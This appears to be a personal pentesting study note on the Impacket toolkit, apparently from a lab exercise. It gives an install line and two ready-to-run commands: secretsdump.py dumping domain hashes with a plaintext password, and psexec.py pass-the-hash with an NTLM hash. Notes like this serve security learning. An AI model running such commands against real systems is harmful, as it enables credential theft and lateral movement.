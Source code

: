 ```yaml
---
creation date: May 29th 2023
last modified date: May 29th 2023
aliases: []
tags: #🧰
---
```


Primary Categories: [[04 - Tools & Techniques]] 
Secondary Categories: [[02 - Windows Privilege Escalation]] [[]]
Links: [[]] 
Search Tag: #🧰  

# [[04 - Impacket]]  

## Description:
---
Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object-oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.

## Installation
---
```bash
python3 -m pipx install impacket
```

## Commands
---
#### secretsdump.py
	Performs various techniques to dump hashes from the remote machine without executing any agent there.
```bash
secretsdump.py spookysec.local/backup:'backup2517860'@10.10.143.138 -just-dc
```

#### psexec.py
	Pass the hash
```bash
psexec.py Administrator@$IP -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4
```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 29th 2023 (08:47 pm) 
Last Modified Date: May 29th 2023 (08:47 pm)
